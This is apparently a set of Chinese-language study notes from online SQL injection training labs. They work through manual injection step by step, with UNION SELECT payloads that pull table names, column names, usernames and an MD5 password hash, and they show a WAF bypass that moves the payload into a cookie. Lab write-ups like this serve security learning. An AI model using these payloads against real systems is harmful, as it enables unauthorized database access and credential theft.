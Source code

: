 ### SQL注入

#### 墨者学院靶场[SQL手工注入漏洞测试(MySQL数据库)](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)
1. 第一步: 查看是否存在注入点 
    `and 1=1` 可以打开
    `id=1 and 1=2` 不能打开
    `id=1 西瓜` 不能打开
1. 第二步: 查看列数量
    `id=1 order by X` X从1不断往上递加直到网页不能正常显示,此题目最大值为4,说明为4列
1. 第三步: 报错查看列名情况
    `id=-1 union select 1,2,3,4` 显示为2,3
1. 第四步: 
    - 从2,3查询, 查看版本, 数据库等信息
    `id=-1 union select 1,version(),database(),4` 此题结果, 版本:`version() = 5.7.22-0ubuntu0.16.04.1` 数据库: `database()=mozhe_Discuz_StormGroup`
    - 查询表名:
    `id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'` 表名结果:`StormGroup_member,notice` 对此题来说,是`StormGroup_member`
    - 查询列名:
    `id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'` 列名结果: `id,name,password,status`
1. 第五步: 查询数据
    `id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1`
    结果`name=mozhe` | `password=861de5d5f0a8128d0fab489996355994`
6.第六步:MD5解密
    name:mozhe 
    password:874769


#### 题目总结

1. 判定注入点
1. 查看列数量
1. 通过报错注入配合页面查看数据回显
1. 通过union联合查询拿到数据库版本,数据库名,表名,列名等信息
1. 查询出数据


#### 封神台SQL注入靶场1

基本步骤同墨者学院靶场 

**不同之处:**
- 使用`union`联合查询前, 不是用`id=-1`去过滤掉结果集, 后台应该有对id不存在时做了处理, 此时, 使用`id=1 and id=2`去`union`新的结果集, 过滤掉前面的结果

例:`id=1 and id=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='maoshe'`

![数据库名称查询结果](images/2021-08-07-14-32-44.png)

#### 封神台SQL注入靶场2

此靶场存在基础的WAF(WEB应用防火墙)

**特点:**
- 使用`id=-1`和`id=1 and id=2`都报错, 这里无法触发注入
- 直接`order by 10`查询出有10个字段
- 猜测存在表名字为`admin`的表,当我们使用`union select 1,2,3,4,5,6,7,8,9,10 from admin`时, 出现报错, 说明存在一定的WAF
![报错内容](images/2021-08-08-01-20-58.png)
- **关键:** 尝试将注入语句放到cookie中, 再发送给服务器, 因为网页防护一般只拦截Get、post传参. 这里用到了[ModHeader插件(新edge版本)](https://microsoftedge.microsoft.com/addons/detail/modheader/opgbiafapkbbnbnjcdomjaghbckfkglc?hl=zh-CN)(不喜欢用edge的也可以去找chrome版本)
- 点击加号, 键入`Cookie`, `id=171`, 再将浏览器url中的参数删除
![ModHeader](images/2021-08-08-01-31-17.png)
![删除参数](images/2021-08-08-01-37-07.png)
- 发现能正常执行, 说明存在cookie注入
![执行结果](images/2021-08-08-01-39-24.png)
- 这次在cookie中传入我们的注入语句, `id=171+union+select+1,2,3,4,5,6,7,8,9,10+from+admin`, 使用+代替空格, 否则报错, 原因**可能是后台进行了一次解码, 解码后`+`会变成空格**
![注入结果](images/2021-08-08-01-41-51.png)
- 尝试查询`admin`表中最常见的字段`username`, `password`, `id=171+union+select+1,username,password,4,5,6,7,8,9,10+from+admin`, 拿到账户密码 